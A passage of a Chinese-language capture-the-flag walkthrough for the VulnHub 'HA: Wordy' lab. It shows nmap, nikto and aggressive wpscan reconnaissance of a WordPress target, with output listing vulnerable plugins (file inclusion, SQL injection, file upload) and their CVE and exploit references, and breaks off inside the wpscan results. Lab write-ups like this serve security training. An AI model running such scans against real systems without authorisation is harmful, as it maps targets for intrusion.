










# HA：WORDY

下载地址：https://download.vulnhub.com/ha/ha-wordy.ova

## 实战操作

扫描到靶场IP地址：`192.168.32.149`



靶场只开启**80端口**。

```
┌──(root💀kali)-[~/Desktop]
└─# nmap  -sT -sV  -p1-65535 192.168.32.149
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-06 01:28 EDT
Nmap scan report for 192.168.32.149
Host is up (0.00078s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
MAC Address: 00:0C:29:17:8D:F6 (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.94 seconds

```

浏览器访问80端口



找到`wordpress`目录





找到notes.txt，不过没有发现有用的东西

```
┌──(root💀kali)-[~]
└─# nikto -host  http://192.168.32.149
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.32.149
+ Target Hostname:    192.168.32.149
+ Target Port:        80
+ Start Time:         2022-06-06 01:35:02 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.29 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /, inode: 2aa6, size: 5921932b778f0, mtime: gzip
+ Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, POST, OPTIONS, HEAD 
+ OSVDB-3233: /icons/README: Apache default file found.
+ /notes.txt: This might be interesting...
+ 7915 requests: 0 error(s) and 8 item(s) reported on remote host
+ End Time:           2022-06-06 01:35:55 (GMT-4) (53 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

```



使用**wpscan**对wordpress目录进行扫描

```
┌──(root💀kali)-[~/Desktop]
└─#  wpscan --url http://192.168.32.149/wordpress/  --enumerate ap  --disable-tls-checks  --api-token  xxxx --plugins-detection aggressive                                                        2 ⨯
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.14
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://192.168.32.149/wordpress/ [192.168.32.149]
[+] Started: Mon Jun  6 02:58:51 2022

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://192.168.32.149/wordpress/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access

[+] WordPress readme found: http://192.168.32.149/wordpress/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://192.168.32.149/wordpress/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://192.168.32.149/wordpress/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.2.15 identified (Latest, released on 2022-03-11).
 | Found By: Rss Generator (Passive Detection)
 |  - http://192.168.32.149/wordpress/index.php/feed/, <generator>https://wordpress.org/?v=5.2.15</generator>
 |  - http://192.168.32.149/wordpress/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.2.15</generator>

[+] WordPress theme in use: twentysixteen
 | Location: http://192.168.32.149/wordpress/wp-content/themes/twentysixteen/
 | Last Updated: 2022-05-24T00:00:00.000Z
 | Readme: http://192.168.32.149/wordpress/wp-content/themes/twentysixteen/readme.txt
 | [!] The version is out of date, the latest version is 2.7
 | Style URL: http://192.168.32.149/wordpress/wp-content/themes/twentysixteen/style.css?ver=5.2.15
 | Style Name: Twenty Sixteen
 | Style URI: https://wordpress.org/themes/twentysixteen/
 | Description: Twenty Sixteen is a modernized take on an ever-popular WordPress layout — the horizontal masthead ...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 2.0 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://192.168.32.149/wordpress/wp-content/themes/twentysixteen/style.css?ver=5.2.15, Match: 'Version: 2.0'

[+] Enumerating All Plugins (via Aggressive Methods)
 Checking Known Locations - Time: 00:02:01 <=========================================================================================================================================================> (98335 / 98335) 100.00% Time: 00:02:01
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] gwolle-gb
 | Location: http://192.168.32.149/wordpress/wp-content/plugins/gwolle-gb/
 | Last Updated: 2022-05-12T09:58:00.000Z
 | Readme: http://192.168.32.149/wordpress/wp-content/plugins/gwolle-gb/readme.txt
 | [!] The version is out of date, the latest version is 4.2.2
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://192.168.32.149/wordpress/wp-content/plugins/gwolle-gb/, status: 200
 |
 | [!] 5 vulnerabilities identified:
 |
 | [!] Title: Gwolle Guestbook <= 1.5.3 - Remote File Inclusion (RFI)
 |     Fixed in: 1.5.4
 |     References:
 |      - https://wpscan.com/vulnerability/65d869e8-5c50-4c82-9101-6b533da0c207
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-8351
 |      - https://www.immuniweb.com/advisory/HTB23275
 |      - https://seclists.org/bugtraq/2015/Dec/8
 |
 | [!] Title: Gwolle Guestbook <= 2.1.0 - Cross-Site Request Forgery (CSRF)
 |     Fixed in: 2.1.1
 |     References:
 |      - https://wpscan.com/vulnerability/ee803a4d-d52b-42c2-9a59-29e4f1aee828
 |      - https://sumofpwn.nl/advisory/2016/gwolle_guestbook_mass_action_vulnerable_for_cross_site_request_forgery.html
 |      - https://seclists.org/bugtraq/2017/Mar/4
 |
 | [!] Title: Gwolle Guestbook <= 2.1.0 - Unauthenticated Stored Cross-Site Scripting (XSS) 
 |     Fixed in: 2.1.1
 |     References:
 |      - https://wpscan.com/vulnerability/08529114-6fee-4bf9-949e-fa31ea3ed39e
 |      - https://sumofpwn.nl/advisory/2016/cross_site_scripting_vulnerability_in_gwolle_guestbook_wordpress_plugin.html
 |      - https://seclists.org/fulldisclosure/2017/Feb/87
 |
 | [!] Title: Gwolle Guestbook <= 2.5.3 - Cross-Site Scripting (XSS)
 |     Fixed in: 2.5.4
 |     References:
 |      - https://wpscan.com/vulnerability/00c33bf2-1527-4276-a470-a21da5929566
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-17884
 |      - https://seclists.org/fulldisclosure/2018/Jul/89
 |      - https://www.defensecode.com/advisories/DC-2018-05-008_WordPress_Gwolle_Guestbook_Plugin_Advisory.pdf
 |      - https://plugins.trac.wordpress.org/changeset/1888023/gwolle-gb
 |
 | [!] Title: Gwolle Guestbook < 4.2.0 - Reflected Cross-Site Scripting
 |     Fixed in: 4.2.0
 |     References:
 |      - https://wpscan.com/vulnerability/e50bcb39-9a01-433f-81b3-fd4018672b85
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-24980
 |
 | Version: 1.5.3 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://192.168.32.149/wordpress/wp-content/plugins/gwolle-gb/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://192.168.32.149/wordpress/wp-content/plugins/gwolle-gb/readme.txt

[+] mail-masta
 | Location: http://192.168.32.149/wordpress/wp-content/plugins/mail-masta/
 | Latest Version: 1.0 (up to date)
 | Last Updated: 2014-09-19T07:52:00.000Z
 | Readme: http://192.168.32.149/wordpress/wp-content/plugins/mail-masta/readme.txt
 | [!] Directory listing is enabled
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://192.168.32.149/wordpress/wp-content/plugins/mail-masta/, status: 200
 |
 | [!] 2 vulnerabilities identified:
 |
 | [!] Title: Mail Masta <= 1.0 - Unauthenticated Local File Inclusion (LFI)
 |     References:
 |      - https://wpscan.com/vulnerability/5136d5cf-43c7-4d09-bf14-75ff8b77bb44
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-10956
 |      - https://www.exploit-db.com/exploits/40290/
 |      - https://www.exploit-db.com/exploits/50226/
 |      - https://cxsecurity.com/issue/WLB-2016080220
 |
 | [!] Title: Mail Masta 1.0 - Multiple SQL Injection
 |     References:
 |      - https://wpscan.com/vulnerability/c992d921-4f5a-403a-9482-3131c69e383a
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6095
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6096
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6097
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6098
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6570
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6571
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6572
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6573
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6574
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6575
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6576
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6577
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6578
 |      - https://www.exploit-db.com/exploits/41438/
 |      - https://github.com/hamkovic/Mail-Masta-Wordpress-Plugin
 |
 | Version: 1.0 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://192.168.32.149/wordpress/wp-content/plugins/mail-masta/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://192.168.32.149/wordpress/wp-content/plugins/mail-masta/readme.txt

[+] reflex-gallery
 | Location: http://192.168.32.149/wordpress/wp-content/plugins/reflex-gallery/
 | Last Updated: 2021-03-10T02:38:00.000Z
 | Readme: http://192.168.32.149/wordpress/wp-content/plugins/reflex-gallery/readme.txt
 | [!] The version is out of date, the latest version is 3.1.7
 | [!] Directory listing is enabled
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://192.168.32.149/wordpress/wp-content/plugins/reflex-gallery/, status: 200
 |
 | [!] 2 vulnerabilities identified:
 |
 | [!] Title: Reflex Gallery <= 3.1.3 - Arbitrary File Upload
 |     Fixed in: 3.1.4
 |     References:
 |      - https://wpscan.com/vulnerability/c2496b8b-72e4-4e63-9d78-33ada3f1c674
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-4133
 |      - https://www.exploit-db.com/exploits/36374/
 |      - https://packetstormsecurity.com/files/130845/
 |      - https://packetstormsecurity.com/files/131515/
 |      - https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_reflexgallery_file_upload
 |
 | [!] Title: Multiple Plugins - jQuery prettyPhoto DOM Cross-Site Scripting (XSS)
 |     Fixed in: 3.1.5
 |     References:
 |      - https://wpscan.com/vulnerability/ad9df355-9928-411c-8b09-f9969d7cf449
 |      - https://blog.anantshri.info/forgotten_disclosure_dom_xss_prettyphoto
 |      - https://github.com/scaron/prettyphoto/issues/149
 |      - https://github.com/wpscanteam/wpscan/issues/818
 |
 | Version: 3.1.3 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://192.168.32.149/wordpress/wp-content/plugins/reflex-gallery/readme.txt

[+] site-editor
 | Location: http://192.168.32.149/wordpress/wp-content/plugins/site-editor/
 | Latest Version: 1.1.1 (up to date)
 | Last Updated: 2017-05-02T23:34:00.000Z
 | Readme: http://192.168.32.149/wordpress/wp-content/plugins/site-editor/readme.txt
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://192.168.32.149/wordpress/wp-content/plugins/site-editor/, status: 200
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Site Editor <= 1.1.1 - Local File Inclusion (LFI)
 |     References:
 |      - https://wpscan.com/vulnerability/4432ecea-2b01-4d5c-9557-352042a57e44
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7422
 |      - https://seclists.org/fulldisclosure/2018/Mar/40
 |      - https://github.com/SiteEditor/editor/issues/2
 |
 | Version: 1.1.1 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://192.168.32.149/wordpress/wp-content/plugins/site-editor/readme.txt

[+] slideshow-gallery
 | Location: http://192.168.32.149/wordpress/wp-content/plugins/slideshow-gallery/
 | Last Updated: 2021-12-21T06:31:00.000Z
 | Readme: http://192.168.32.149/wordpress/wp-content/plugins/slideshow-gallery/readme.txt
 | [!] The version is out of date, the latest version is 1.7.4.4
 | [!] Directory listing is enabled
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://192.168.32.149/wordpress/wp-content/plugins/slideshow-gallery/, status: 200
 |
 | [!] 6 vulnerabilities identified:
 |
 | [!] Title: Slideshow Gallery < 1.4.7 - Arbitrary File Upload
 |     Fixed in: 1.4.7
 |     References:
 |      - https://wpscan.com/vulnerability/b1b5f1ba-267d-4b34-b012-7a047b1d77b2
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-5460
 |      - https://www.exploit-db.com/exploits/34681/
 |      - https://www.exploit-db.com/exploits/34514/
 |      - https://seclists.org/bugtraq/2014/Sep/1
 |      - https://packetstormsecurity.com/files/131526/
 |      - https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_slideshowgallery_upload
 |
 | [!] Title: Tribulant Slideshow Gallery <= 1.5.3 - Arbitrary file upload & Cross-Site Scripting (XSS) 
 |     Fixed in: 1.5.3.4
 |     References:
 |      - https://wpscan.com/vulnerability/f161974c-36bb-4fe7-bbf8-283cfe9d66ca
 |      - http://cinu.pl/research/wp-plugins/mail_5954cbf04cd033877e5415a0c6fba532.html
 |      - http://blog.cinu.pl/2015/11/php-static-code-analysis-vs-top-1000-wordpress-plugins.html
 |
 | [!] Title: Tribulant Slideshow Gallery <= 1.6.4 - Authenticated Cross-Site Scripting (XSS)
 |     Fixed in: 1.6.5
 |     References:
 |      - https://wpscan.com/vulnerability/bdf963a1-c0f9-4af7-a67c-0c6d9d0b4ab1
 |      - https://sumofpwn.nl/advisory/2016/cross_site_scripting_vulnerability_in_tribulant_slideshow_galleries_wordpress_plugin.html
 |      - https://plugins.trac.wordpress.org/changeset/1609730/slideshow-gallery
 |
 | [!] Title: Slideshow Gallery <= 1.6.5 - Multiple Authenticated Cross-Site Scripting (XSS)
 |     Fixed in: 1.6.6
 |     References:
 |      - https://wpscan.com/vulnerability/a9056033-97c7-4753-822f-faf99f4081e2
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-17946
 |      - https://www.defensecode.com/advisories/DC-2017-01-014_WordPress_Tribulant_Slideshow_Gallery_Plugin_Advisory.pdf
 |      - https://packetstormsecurity.com/files/142079/
 |
 | [!] Title: Slideshow Gallery <= 1.6.8 - XSS and SQLi
 |     Fixed in: 1.6.9
 |     References:
 |      - https://wpscan.com/vulnerability/57216d76-7cba-477e-a6b5-1e409913a0fc
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-18017
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-18018
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-18019
 |      - https://plugins.trac.wordpress.org/changeset?reponame=&new=1974812%40slideshow-gallery&old=1907382%40slideshow-gallery
 |      - https://ansawaf.blogspot.com/2019/04/xss-and-sqli-in-slideshow-gallery.html
 |
 | [!] Title: Slideshow Gallery < 1.7.4 - Admin+ Stored Cross-Site Scripting
 |     Fixed in: 1.7.4
 |     References:
 |      - https://wpscan.com/vulnerability/6d71816c-8267-4b84-9087-191fbb976e72
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-24882
 |
 | Version: 1.4.6 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://192.168.32.149/wordpress/wp-content/plugins/slideshow-gallery/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://192.168.32.149/wordpress/wp-content/plugins/slideshow-gallery/readme.txt

[+] wp-easycart
 | Location: http://192.168.32.149/wordpress/wp-content/plugins/wp-easycart/
 | Last Updated: 2022-05-27T21:12:00.000Z
 | Readme: http://192.168.32.149/wordpress/wp-content/plugins/wp-easycart/readme.txt
 | [!] The version is out of date, the latest version is 5.3.4
 | [!] Directory listing is enabled
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://192.168.32.149/wordpress/wp-content/plugins/wp-easycart/, status: 200
 |
 | [!] 4 vulnerabilities identified:
 |
 | [!] Title: EasyCart <= 3.0.15 - Unrestricted File Upload
 |     Fixed in: 3.0.16
 |     References:
 |      - https://wpscan.com/vulnerability/6c1c4f2f-61a9-4a18-b008-9a94048ec2a8
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-9308
 |      - https://www.exploit-db.com/exploits/35730/
 |      - https://www.exploit-db.com/exploits/36043/
 |      - https://packetstormsecurity.com/files/129875/
 |      - https://packetstormsecurity.com/files/130328/
 |      - https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_easycart_unrestricted_file_upload
 |
 | [!] Title: EasyCart 1.1.30 - 3.0.20 - Privilege Escalation
 |     Fixed in: 3.0.21
 |     References:
 |      - https://wpscan.com/vulnerability/5f951b86-bf79-4992-890f-119345ec906f
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-2673
 |      - https://rastating.github.io/wp-easycart-privilege-escalation-information-disclosure
 |
 | [!] Title: Shopping Cart & eCommerce Store < 5.1.1 - CSRF to Stored Cross-Site Scripting
 |     Fixed in: 5.1.1
 |     References:
